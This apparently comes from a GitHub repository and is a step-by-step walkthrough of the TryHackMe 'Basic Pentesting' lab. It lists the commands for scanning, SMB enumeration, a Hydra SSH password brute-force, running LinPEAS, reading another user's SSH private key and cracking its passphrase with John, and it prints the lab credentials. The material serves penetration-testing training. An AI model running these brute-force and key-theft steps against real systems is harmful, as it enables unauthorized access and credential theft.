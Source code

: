 Basic Pentesting Walkthrough
Target Information
Target IP Address: 10.10.210.169
Tools and Commands Used
1. Nmap Scan:

nmap -sC -sV -oN nmap/initial 10.10.210.169
-sC: Runs default scripts.
-sV: Detects service versions.
-oN: Saves output in normal format (nmap/initial).
2. Gobuster Directory Brute-forcing:

gobuster dir -w /home/kali/try-hack-me/basic-penetration-testing/directory-list-2.3-medium.txt -u http://10.10.210.169
This found the hidden directory: development.
3. Enum4linux for SMB Enumeration:

enum4linux -a 10.10.210.169 | tee enum4linux.log
Discovered usernames: jan and kay.
4. Hydra Brute-forcing (SSH Login for Jan):

hydra -l jan -P /home/kali/wordlist/rockyou.txt ssh://10.10.210.169
Successfully found Jan's SSH credentials:
Username: jan
Password: armando
5. Transferring LinPEAS to Target:

scp /home/kali/tools/linpeas.sh jan@10.10.210.169:/dev/shm
Transferred linpeas.sh to the /dev/shm directory.
6. Running LinPEAS for Privilege Escalation Enumeration:

./linpeas.sh | tee linpeaslog.txt
Enumerated possible privilege escalation vectors.
7. Accessing Kay's SSH Private Key:

cat /home/kay/.ssh/id_rsa
Copied Kay's private SSH key to local file kays_id_rsa using nano.
8. Cracking Kay's SSH Key Passphrase:
Convert Kay's SSH Key to John Hash Format:


python3 /usr/share/john/ssh2john.py kays_id_rsa > kay_ssh_hash.txt
Crack Passphrase Using John the Ripper:


john --wordlist=/usr/share/wordlists/rockyou.txt kay_ssh_hash.txt
Display Cracked Passphrase:


john --show kay_ssh_hash.txt
9. Logging in as Kay:

ssh -i kays_id_rsa kay@10.10.210.169
Used the cracked passphrase to log in as kay.
10. Retrieving the Final Flag:
![1st-pwn](https://github.com/user-attachments/assets/620ca677-e188-452c-9e07-3d9405348b40)
![john-passwd-cracked](https://github.com/user-attachments/assets/c89cf767-397b-4e25-87fe-62cec5bf0735)
![ssh2john](https://github.com/user-attachments/assets/b84d3dbb-a3b7-4c7a-9a86-7107fb2bb856)
![ran-linpeas](https://github.com/user-attachments/assets/6f92f412-8b5f-4228-b3c9-d80ae26046d5)
![ssh-scp-linpeas](https://github.com/user-attachments/assets/a603a097-ac1e-49eb-a033-e2225e4aec42)
![linPEAS-image](https://github.com/user-attachments/assets/e55e4506-d557-42aa-8c6d-a36109acfb81)
![ssh-tried-2](https://github.com/user-attachments/assets/e50e9bcc-c4e3-4a3b-b41a-ae8311c00d9c)
![ssh-tried-1](https://github.com/user-attachments/assets/4226ecc3-b009-481b-8fd3-b21e40ccd04a)
![ssh-user-jan-image](https://github.com/user-attachments/assets/5290964b-523b-4470-aeee-836bb4d94b82)
![hyda](https://github.com/user-attachments/assets/7d2516bb-9a4c-4b9c-b742-fea8f7406d71)

cat pass.bak
Discovered the final password: heresareallystrongpasswordthatfollowsthepasswordpolicy$$.
Enumeration Summary
Open Ports:
22 - SSH
80 - HTTP
139 - NetBIOS
445 - SMB
Hidden Directory:
development
Discovered Users:
jan
kay
Credentials:
Jan's SSH:

Username: jan
Password: armando
Kay's Final Password:

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
